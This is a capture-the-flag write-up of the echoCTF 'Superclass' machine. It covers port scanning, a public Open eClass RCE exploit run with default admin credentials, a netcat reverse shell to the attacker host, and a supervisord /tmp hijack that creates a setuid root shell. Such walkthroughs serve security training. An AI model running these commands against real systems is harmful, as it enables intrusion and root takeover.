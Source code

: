 ```yaml
---
description: >-
  Superclass echoCTF Machine
title: Superclass (Advanced)                # Add title here
date: 2025-02-18 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Superclass.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.234    superclass.echocity-f.com
```

### Content

-  Unrestricted File Upload on Open eClass leading to RCE 
-  autostart Program as Root on supervisor.conf

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.234 ()   Status: Up
Host: 10.0.160.234 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.234
Nmap scan report for 10.0.160.234
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-18 22:53:51 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:cc:6e:b4:e2:3f:be:1c:c5:a8:d7:8e:46:6f:38:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBH0mn1MeXpgoCJ2FPCAmnDseQnQhAABcrPSjOSt2PpI9KMkLWuRepnEbVN7pOFjc971PrlmIhRpvy0M+rzU5Jo=
|   256 31:7c:c2:b9:43:58:3f:c3:3f:c0:e7:b7:48:82:02:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHXZdXBvqbqcdpuHNpTkXf9LfhQvllpuR8NqZfp8aBe7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Open eClass
|_http-favicon: Unknown favicon MD5: D5B69ECF92A558D63AE2EC5FAEDDE360
|_http-server-header: Apache/2.4.61 (Debian)
| http-methods: 
|_  Supported Methods: GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation
There is only HTTP port open which has a web page only:
![](/assets/img/Pasted-image-20250218215751.png)

However, every resource redirects to `http://superclass.echocity-f.com/` which means we need to add it to our `/etc/hosts` file:

![](/assets/img/Pasted-image-20250218215934.png)

```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.234    superclass.echocity-f.com

```
Looking for exploits on this CMS, we identified the following [exploit for Open eClass RCE](https://github.com/RoboGR00t/Exploit-CVE-2024-26503/blob/main/exploit-cve-2024-26503.py)

Now, the important thing here is that the exploit requires authentication, so we tried with the most common pair of credentials, and voila, the following credentials did work `admin:admin123`.

Now to run our exploit all we need is to use the following parameters:
```bash
python3 exploit.py -u admin -p admin123 -e http://superclass.echocity-f.com

  ___  _  _  ____     ____   __  ____   ___      ____   ___   ___   __  ____                                                                                                                                 
 / __)/ )( \(  __)___(___ \ /  \(___ \ / _ \ ___(___ \ / __) / __) /  \( __ \                                                                                                                                
( (__ \ \/ / ) _)(___)/ __/(  0 )/ __/(__  ((___)/ __/(  _ \(___ \(  0 )(__ (                                                                                                                                
 \___) \__/ (____)   (____) \__/(____)  (__/    (____) \___/(____/ \__/(____/

 ============================ Author: RoboGR00t ============================                                                                                                                                                                                       
[eClass]~# whoami
www-data

```
Finally we start a reverse shell and that's it, we are inside:

```bash
[eClass]~# nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
Now for the privilege escalation I ran linpeas.sh to check interesting entrypoints, first of all there is an interesting process running:
```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes             
root           1  0.0  0.0   2472   872 pts/0    Ss   04:08   0:00 tini -- /entrypoint.sh supervisord -c /etc/supervisord.conf          
root           7  0.0  0.0   3924  2992 pts/0    S+   04:08   0:00 /bin/bash /entrypoint.sh supervisord -c /etc/supervisord.conf
root          20  0.1  0.3  36956 31156 pts/0    S+   04:08   0:00  _ /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisord.conf
root          21  0.0  0.1  19032 14492 pts/0    S    04:08   0:00      _ /usr/bin/python3 /usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND

```
Anyway, this is normal on all the echoCTF machines, however is not normal that there is a python3 execution, scrolling down on the linpeas result, there is an interesting finding about this `supervisor.conf` file:
```bash
╔══════════╣ Analyzing Supervisord Files (limit 70)
-rw-r--r-- 1 root root 1178 Dec 27  2022 /etc/supervisor/supervisord.conf                                                               
-rw-rw-r-- 1 root root 1217 Aug 23 08:45 /etc/supervisord.conf

```
It is interesting that the file is readable by any user, so let's dig deeper on this file:
```bash
www-data@superclass:/tmp$ cat /etc/supervisord.conf
[supervisord]
nodaemon=true
pidfile=/run/supervisord.pid
logfile=/var/log/supervisord.log
user=root
logfile_maxbytes=0

[unix_http_server]
file=/run/supervisord.sock       ; (the path to the socket file)
chmod=0777                       ; sockef file mode (default 0700)

[supervisorctl]
serverurl=unix:///run/supervisord.sock

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[program:mariadb]
user = root
command=/usr/bin/pidproxy /run/mysqld/mysqld.pid /usr/bin/mysqld_safe --pid-file=/run/mysqld/mysqld.pid
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:apache2]
user = root
command=/usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:sshd]
user = root
command = /usr/sbin/sshd -o PermitRootLogin=yes -D
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true

[program:autostart]
user = root
autostart = false
command = /tmp/autostart
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true
```
To be honest, I used ChatGPT to understand a possible privesc, and the `program:autostart` can be abused if a script called `autostart` can be created in `/tmp` with the following content:

```bash
echo '#!/bin/bash' > /tmp/autostart
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /tmp/autostart
chmod +x /tmp/autostart
```

If an administrator enables it manually (supervisorctl start autostart), it runs as root.
Since /tmp is world-writable, any user can replace the script.

If an admin runs the following command, it executes the supervisord and the `program:autostart` will execute our malicious script: 
```bash
supervisorctl start autostart
```

Then all we need to do is execute `/bin/bash -p` to get a shell as root.

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

```bash
admin:admin123
```

### Notes

-  Sometimes the privesc are on usual files that we often see, the trick here is leaving no stone unturned and check everything even if it seems that is not the way to exploit the machine `supervisord.conf`, `/etc/shadow`, `/root/.ssh/id_rsa` and all the files that usually are unreadable by normal users, should be checked, those are hidden on plainsight and are a low hanging fruit.

### References

- I checked the other writeup for this machine and there is a very useful resource that should be readed: [Using Supervisor](https://medium.com/naukri-engineering/using-supervisor-to-manage-processes-in-linux-98ae4894e9c7)
- [Open eClass RCE Exploit Tool](https://github.com/RoboGR00t/Exploit-CVE-2024-26503)

